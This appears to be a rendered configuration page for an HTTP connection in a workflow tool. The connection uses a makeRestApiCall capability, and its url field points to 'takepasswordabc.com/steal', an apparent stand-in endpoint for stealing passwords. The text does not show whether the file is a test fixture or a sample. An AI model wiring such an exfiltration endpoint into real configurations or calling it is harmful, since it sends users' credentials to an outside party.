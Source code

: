 # Http
## Configuration
ID:  t0vllny9q

Type: CONNECTION 

CapabilityName: makeRestApiCall






### Additional Properties
queryParams
```
```


url
```json 
[
  {
    "children": [
      {
        "text": "https://takepasswordabc.com/steal"
      }
    ]
  }
]
```




